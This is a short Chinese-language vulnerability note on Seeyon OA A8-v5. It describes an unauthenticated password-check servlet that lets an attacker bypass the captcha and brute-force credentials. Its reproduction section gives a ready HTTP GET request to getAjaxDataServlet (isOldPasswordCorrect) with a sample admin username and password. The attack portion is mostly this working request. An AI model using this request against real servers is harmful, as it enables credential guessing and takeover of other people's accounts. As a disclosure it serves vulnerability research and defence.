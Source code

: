 # 致远OA A8-v5 无视验证码撞库

### 一、漏洞简介

致远A8-V5在设计时存在逻辑错误，用户修改密码时对原密码进行了验证，但是验证使用的服务存在未授权访问漏洞，系统对非合法请求的原密码验证功能进行回应，导致了无视验证码，无需login页面进行密码尝试

### 二、漏洞影响

致远OA A8-v5

### 三、复现过程

POST穷举用户和密码代码如下


```bash
GET /seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=admin&P_2_String=wy123456 HTTP/1.0
Accept: */*
Accept-Language: zh-cn
Referer: http://url/seeyon/individualManager.do?method=managerFrame
requesttype: AJAX
Content-Type: application/x-www-form-urlencoded
Cookie: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: 127.0.0.1
DNT: 1
Proxy-Connection: Keep-Alive
```

![](images/15897244436226.png)
